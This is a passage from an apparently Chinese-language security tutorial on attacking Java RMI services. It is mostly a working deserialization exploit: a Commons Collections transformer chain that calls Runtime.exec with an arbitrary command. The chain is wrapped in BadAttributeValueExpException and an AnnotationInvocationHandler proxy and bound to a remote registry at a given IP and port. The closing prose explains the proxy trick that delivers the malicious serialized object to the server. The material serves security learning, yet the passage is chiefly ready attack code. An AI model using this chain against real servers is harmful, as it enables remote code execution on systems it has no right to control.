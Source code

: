 ```java
        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[] { command }),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field valfield = badAttributeValueExpException.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException, entry);
        // 上面都是我们接触过得代码，正常的payload生成，下面的就是把它包装一下，让它可以在rmi中使用

        // 为了能够封装到AnnotationInvocationHandler中，需要把badAttributeValueExpException先放到一个map结构中
        String name = "axin";
        Map<String, Object> map = new HashMap<String, Object>();
        map.put(name, badAttributeValueExpException);
        // 获得AnnotationInvocationHandler的构造函数
        Constructor cl = Class.forName(ANN_INV_HANDLER_CLASS).getDeclaredConstructors()[0];
        cl.setAccessible(true);
        // 实例化一个Remote.class的代理
        InvocationHandler hl = (InvocationHandler)cl.newInstance(Override.class, map);
        Object object = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, hl);
        Remote remote = Remote.class.cast(object);
        Registry registry=LocateRegistry.getRegistry(ip,port);
        registry.bind(name, remote);
    }
}
```

注释中已经解释了代码的用途，但是最后一点代码还是要着重说一下，因为bind(name,remote)中的remote对象必须要实现Remote接口，但是我们的badAttributeValueExpException是没有实现这个接口的，所以，这里利用了很巧妙的一个技巧，那就是利用动态代理，代理了Remote.class，且把这个类的handler设置为封装了我们的badAttributeValueExpException对象的AnnotationInvocationHandler，这里不一定是用AnnotationInvocationHandler封装，换成其他的handler也是可以的，这样就可以把我们的恶意序列化对象发到服务端了。
